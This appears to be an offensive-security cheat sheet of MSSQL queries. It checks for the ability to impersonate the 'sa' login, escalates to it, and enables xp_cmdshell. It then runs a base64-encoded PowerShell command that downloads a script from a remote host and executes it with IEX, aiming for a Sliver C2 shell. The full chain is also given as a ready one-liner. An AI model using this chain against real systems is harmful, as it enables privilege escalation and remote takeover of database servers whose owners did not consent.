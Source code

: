 # Queries

### 1) Check if we can impersonate SA

    SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sa');
    EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER; 


### 2) Impersonate SA and enable xp_cmdshell and get sliver shell
    
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE; 
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; 
    EXEC xp_cmdshell 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='
    

## One liner

    EXECUTE AS LOGIN = 'sa';EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='
